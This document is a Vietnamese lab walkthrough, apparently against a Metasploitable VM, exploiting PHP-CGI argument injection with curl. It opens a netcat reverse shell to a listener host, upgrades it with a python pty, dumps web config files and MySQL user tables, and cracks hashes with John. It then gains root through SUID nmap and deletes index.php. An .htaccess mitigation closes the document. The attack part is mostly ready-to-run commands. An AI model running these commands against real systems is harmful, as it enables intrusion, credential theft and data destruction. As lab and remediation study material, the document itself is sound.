 ## Tùy chọn lệnh
```
curl -s -X POST "http://192.168.80.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('whoami'); die(); ?>" --connect-timeout 10
```

## Chím Shell phiên bản ngoài đời thực

-Lắng nghe:
```
nc -lvnp 4444
```

- Thự hiện shell ngược:
```
curl -s -X POST "http://192.168.80.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('nc 192.168.80.2 4444 -e /bin/sh'); die(); ?>" --connect-timeout 10
```

- Chím shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- 📁 4. Khám phá thư mục home, có thể chứa thông tin nhạy cảm [*]
```
cd /home
ls -la
```

- 🔑 5. Tìm kiếm thông tin nhạy cảm: mật khẩu, private key, cấu hình database
```
find /var/www -type f -iname "*config*.php"
```

- 🔍 Đặc biệt chú ý các file trong dvwa, mutillidae, phpMyAdmin, tikiwiki: [*]
cat /var/www/dvwa/config/config.inc.php

```
cat /var/www/dvwa/config/config.inc.php
```

- 🔄 7. Nếu có thông tin đăng nhập MySQL, thử đăng nhập: [*]
```
mysql -u root -p
```

```
show databases;
```

```
USE dvwa;
SHOW TABLES;
SELECT * FROM users;
```

```
USE mysql;
SELECT user, host, password FROM user;
```

```
USE owasp10;
SHOW TABLES;
SELECT * FROM accounts;
```


```
exit
```
## Crack password

- Xóa bộ nhớ đệm trước đó
```
rm ~/.john/john.pot
```

```
john --format=<format> hashes.txt
```

- Crack hash
```
john --wordlist=rockyou.txt --format=raw-md5 hash.txt
```

- Show 
```
john --show --format=raw-md5 hash.txt
```


## Test đăng nhập

- Xem người dùng trong hệ thống
```
cat /etc/passwd
```

## Thăng Quyền

| Thành phần    | Giải thích dễ hiểu                                                                                                                                            |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `find`        | Lệnh dùng để **tìm kiếm file/thư mục**.                                                                                                                       |
| `/`           | Bắt đầu tìm từ **gốc hệ thống** (toàn bộ máy – từ `/` trở đi).                                                                                                |
| `-perm -4000` | Tìm file có quyền **SUID (Set User ID)** được bật.<br>📌 "4000" là mã quyền dạng **octal** đại diện cho SUID.<br>✅ `-4000` nghĩa là **phải có đúng bit SUID** |
| `-type f`     | Chỉ tìm **file thông thường** (không tìm thư mục, symlink, v.v).                                                                                              |
| `2>/dev/null` | **Ẩn lỗi** (ví dụ lỗi "Permission denied" khi không đọc được thư mục nào đó).                                                                                 |


```
find / -perm -4000 -type f 2>/dev/null
```

```
/usr/bin/nmap --interactive
```

```
!sh
```

```
whoami
```

> - Bạn là người thường (www-data), muốn vào phòng VIP.
> - Có một người khác được cấp quyền root tên là nmap(/usr/bin/nmap)
> - Khi bạn nhờ robot làm giúp ("--interactive")
> - Bạn bảo: “Mở cửa phòng VIP giúp tôi nhé!” (!sh)
> - Robot dùng quyền của nó để mở cửa, vậy là bạn vào được(chạy dưới quyền root)!

## Tạo thư mục
```
mkdir haidang
```


## xóa file
```
rm index.php
```






# 🛡️ 4. Đề xuất khắc phục

## Lọc Tham Số Nguy Hiểm
> `-d` `-n` `-s` ...

```
export TERM=xterm
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@192.168.80.10
```


```
cd /var/www
sudo nano .htaccess
```

- Dán nội dung sau:
```
<IfModule mod_rewrite.c>
  RewriteEngine On
  RewriteCond %{QUERY_STRING} ^(%2d|-)[^=]+$ [NC]
  RewriteRule ^.* - [F,L]
</IfModule>
```

- reload
```
sudo a2enmod rewrite
sudo /etc/init.d/apache2 force-reload
```

---

- 🛠 Cho phép Apache sử dụng .htaccess
```
sudo nano /etc/apache2/sites-available/default
```

- Tìm:
```
<Directory /var/www/>
    Options Indexes FollowSymLinks MultiViews
    AllowOverride None
    Order allow,deny
    allow from all
</Directory>
```

- ➡ Sửa dòng AllowOverride None thành:
```
AllowOverride All
```

- AllowOverride All

```
sudo /etc/init.d/apache2 restart
```

---

```
sudo ifconfig eth0 192.168.80.10 netmask 255.255.255.0 up 
```

